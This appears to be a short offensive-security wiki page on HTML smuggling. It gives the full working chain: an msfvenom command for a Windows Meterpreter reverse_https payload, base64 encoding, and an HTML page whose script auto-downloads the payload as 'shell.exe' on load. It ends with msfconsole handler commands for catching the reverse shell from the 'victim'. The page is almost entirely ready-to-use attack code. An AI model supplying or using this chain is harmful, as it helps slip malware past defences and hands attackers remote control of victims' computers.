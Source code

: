 ```yaml
---
title: HTML Smuggling
layout: default
parent: Deliver
nav_order: 1
---
```


First generate a meterpreter shell:

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=IP LPORT=PORT -f exe -o /tmp/shell.exe
```

Then base64 the whole thing:

```bash
base64 /tmp/shell.exe
```

Remove all **line break** or **new lines** from the base64 output

Add the whole thing to below and serve as html (This works for all browser):

```html
<html>
<body>
<script>
function base64ToArrayBuffer(base64) {
var binary_string = window.atob(base64);
var len = binary_string.length;
var bytes = new Uint8Array( len );
for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i);
}
return bytes.buffer;
}
var file ='BASE64 PAYLOAD NEWLINE/BREAK REMOVED'
var data = base64ToArrayBuffer(file);
var blob = new Blob([data], {type: 'octet/stream'});
var fileName = 'shell.exe';
if (navigator.msSaveBlob) {
    // Use IE11's APIs
    navigator.msSaveBlob(blob, fileName)
    
   // Other browsers
  } else {
    var a = document.createElement('a');
    document.body.appendChild(a);
    a.style = 'display: none';
    var url = window.URL.createObjectURL(blob);
    a.href = url;
    a.download = fileName;
    a.click();
    window.URL.revokeObjectURL(url);
  }
</script>
</body>
</html>
```

Remember to ready the mfsconsole before serving it to the victim:

```
msfconsole -q
use multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost IP
set lport PORT
exploit
```